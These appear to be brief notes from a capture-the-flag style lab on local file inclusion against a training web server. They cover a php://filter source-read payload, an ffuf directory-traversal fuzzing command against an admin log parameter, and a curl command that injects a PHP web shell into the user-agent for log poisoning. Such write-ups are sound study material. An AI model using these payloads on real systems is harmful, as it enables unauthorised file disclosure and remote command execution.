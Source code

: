 ___
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```
http://83.136.253.171:44707/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

```php
<?php 
	// echo '<li><a href="ilf_admin/index.php">Admin</a></li>'; 
?>
```

![[Pasted image 20241011131524.png]]

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://83.136.253.171:44707/ilf_admin/index.php?log=../../../../../FUZZ -fs 2046
```

![[Pasted image 20241011132046.png]]

```bash
curl -A '<?php system($_GET['cmd']); ?>' http://83.136.253.171:44707
```

![[Pasted image 20241011133107.png]]



